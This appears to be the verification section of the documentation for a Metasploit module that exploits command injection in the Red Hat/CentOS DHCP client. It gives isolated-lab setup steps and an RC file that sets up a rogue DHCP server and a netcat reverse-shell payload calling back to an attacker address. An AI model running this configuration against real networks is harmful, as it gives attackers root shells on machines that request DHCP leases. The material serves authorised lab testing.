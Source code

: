 ## Verification

- Setup CentOS virtual machine and Kali virtual machine
- Ensure proper versions are in use. This was tested on `CentOS Linux release 7.4.1708 (Core)` with NetworkManager version `1.8.0-11.el7_4`
- Create isolated custom network (e.g. 192.168.41.0/24)
- Disable DHCP server on custom network for easier verification 
- Start `msfconsole` on Kali Linux
- `use exploit/unix/dhcp/rhel_dhcp_client_command_injection`
- Configure `SRVHOST` and `NETMASK` required variables
- Configure `PAYLOAD` and supporting options
- Start the DHCP server
- On CentOS 7 machine, request a new DHCP address. Assuming primary interface is `ens33`, you can use: `clear && nmcli conn down id "ens33" && nmcli conn up id "ens33" && ip addr show`
- This should request a new DHCP from your server (if other DHCP servers exist, note that then this becomes a race condition often requiring DHCP NAK's to get your DHCP to win)

Validated using RC File:

```
use exploit/unix/dhcp/rhel_dhcp_client_command_injection
set SRVHOST 192.168.41.129
set NETMASK 255.255.255.0
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.41.2
set LPORT 1337
exploit -j -z
```
